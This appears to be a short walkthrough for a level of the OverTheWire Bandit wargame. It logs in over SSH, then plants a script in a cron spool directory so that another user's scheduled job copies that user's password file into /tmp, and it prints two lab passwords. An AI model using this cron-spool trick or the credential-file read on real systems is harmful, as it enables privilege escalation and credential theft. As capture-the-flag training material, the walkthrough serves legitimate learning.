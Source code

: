 [$]-> ssh bandit23@bandit.labs.overthewire.org -p 2220

[$]-> jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

[$]-> cat /usr/bin/cronjob_bandit24.sh

[$]-> mkdir /tmp/sawin

[$]-> cd /tmp/sawin

[$]-> vim password.sh

# paste the following code 
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/sawin/password


[$]-> chmod 777 password.sh

[$]-> cp password.sh /var/spool/bandit24

# give it a minute to allow to run cron job then cat

[$]-> cat password


The password for bandit24 is: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 
